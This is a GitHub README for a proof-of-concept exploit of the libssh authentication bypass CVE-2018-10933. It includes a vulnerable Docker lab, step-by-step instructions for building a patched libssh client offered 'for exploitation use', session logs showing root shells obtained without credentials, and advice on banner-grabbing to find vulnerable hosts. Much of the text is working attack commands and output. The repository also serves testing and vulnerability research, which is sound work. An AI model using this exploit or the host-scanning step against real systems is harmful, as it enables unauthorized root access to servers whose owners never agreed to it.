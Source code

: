 # CVE-2018-10933 
CVE-2018-10933 libssh authentication bypass, a vulnerable Docker container that listens on port 2222
for exploitation. A basic proof-of-concept libssh patch included in the container to bypass auth. To login
use the default "myuser" / "mypassword" from libssh. A patch is applied to a copy of libssh in 
the Docker container which injects a SSH2_MSG_USERAUTH_SUCCESS packet during any authentication 
(keyboard-interactive / pubkey / gss-api etc.) attempt and sets the client side state to proceed. The
included server has been patched from example code to allow exploitation to succeed.

```
./build.sh
./run.sh
ssh -l myuser -p 2222 localhost
```

A patched exploit-libssh-0.8.3 and vulnerable sshd are available in the container for testing purposes.
The "ssh-client" will successfully bypass authentication but is unable to spawn a shell against the
default example server due to additional authentication checks in the server code. 

``` 
[root@305b48cb932e ]# cd /root/exploit-libssh-0.8.3/build/examples
[root@305b48cb932e examples]# ./ssh-client -l root 127.0.0.1
The server is unknown. Do you trust the host key (yes/no)?
SHA256:Mg6j2yHWMsRe56ABhAYjLIJK9yD2N3lGQAl3EfGqP7w
yes
This new key will be written on disk for further usage. do you agree ?
yes
Requesting shell : Channel request shell failed
[root@305b48cb932e examples]# 
```

From the advisory "malicious client could create channels without first performing authentication, resulting in unauthorized access."

The following libssh debug output shows authentication has succeeded on the server and a session
channel has been created. The host is now authenticated but additional server side checks prevent
commands being executed. An attacker could still attempt to tunnel/proxy connections through
the service.

```
[2018/10/19 01:26:24.929187, 3] ssh_packet_process:  Dispatching handler for packet type 52
[2018/10/19 01:26:24.929228, 3] ssh_packet_userauth_success:  Authentication successful
[2018/10/19 01:26:24.971901, 3] ssh_packet_socket_callback:  packet: read type 90 [len=44,padding=19,comp=24,payload=24]
[2018/10/19 01:26:24.971984, 3] ssh_packet_process:  Dispatching handler for packet type 90
[2018/10/19 01:26:24.972012, 3] ssh_packet_channel_open:  Clients wants to open a session channel
[2018/10/19 01:26:24.972057, 3] ssh_message_channel_request_open_reply_accept_channel:  Accepting a channel request_open for chan 43
[2018/10/19 01:26:24.972193, 3] ssh_socket_unbuffered_write:  Enabling POLLOUT for socket
[2018/10/19 01:26:24.972233, 3] packet_send2:  packet: wrote [len=28,padding=10,comp=17,payload=17]
```

Attempts to launch shells / exec or pty result in a successful session but errors on the example server due to an additional
checks on the user authentication state. The following errors are shown on the example server.

```
[2018/10/19 03:33:56.539864, 3] ssh_message_handle_channel_request:  Received a shell channel_request for channel (43:0) (want_reply=1)
[2018/10/19 03:33:56.539899, 3] ssh_message_channel_request_reply_default:  Sending a default channel_request denied to channel 0
```

It is still possible for bespoke libssh servers to potentially result in arbitrary code execution
but the majority may only allow tunneling or some misuse of SSH protocol. By removing the additional authentication check
the server is now vulnerable to the authentication bypass exploit. It is possible for a server side libssh implementation
to introduce this vulnerability. Example of a successful exploitation using patched libssh below.

```
[root@3a184714fd21]# cd /root/exploit-libssh-0.8.3/build/examples
[root@3a184714fd21 examples]# ./ssh-client -l root 127.0.0.1
The server is unknown. Do you trust the host key (yes/no)?
SHA256:DyYf8l6tjNc0kyUe5uE/Rt8vHI1SuhsVGbzOonzPlaY
yes
This new key will be written on disk for further usage. do you agree ?
yes
[root@3a184714fd21 /]# id
uid=0(root) gid=0(root) groups=0(root)
```

The Docker container will run the vulnerable "ssh_server_fork" example by default, the original can be found
in "libssh-0.8.3" directory for testing/debugging purposes. 

# Impacted Vendors
The following vendors appear to be practically impacted by this flaw due to their use of libssh.

* F5 https://support.f5.com/csp/article/K52868493
* Redhat https://access.redhat.com/security/cve/cve-2018-10933

libssh is installed locally on a number of *BSD & Linux distributions as is used by ffmpeg (?), hydra
and a small number of FOSS packages. 

# Exploit
You can build a patched libssh client from this repo for exploitation use.

```
git clone https://github.com/hackerhouse-opensource/cve-2018-10933
cd cve-2018-10933
xz -d libssh-0.8.3.tar.xz
tar -xvf libssh-0.8.3.tar
cd libssh-0.8.3
patch -p0 < ../cve-2018-10933.patch
mkdir build
cd build
cmake ..
make
```

You can then use "ssh-client" and any examples to bypass authentication on affected libssh server 
implementations.

```
$ ./ssh-client -l root 127.0.0.1 -p 2222
[root@8fec78903da2 /]# id
uid=0(root) gid=0(root) groups=0(root)
```

# Identification

Scanning for potentially vulnerable hosts can be performed simply by doing regular banner
grabbing on affected SSH ports (e.g. nmap). 
```
SSH-2.0-libssh_0.8.3
```

# Credits
The original advisory is in CVE-2018-10933.txt, vulnerability found by Peter Winter Smith. Vulnerable Docker
and libssh exploit patch released by Hacker House (https://hacker.house). 
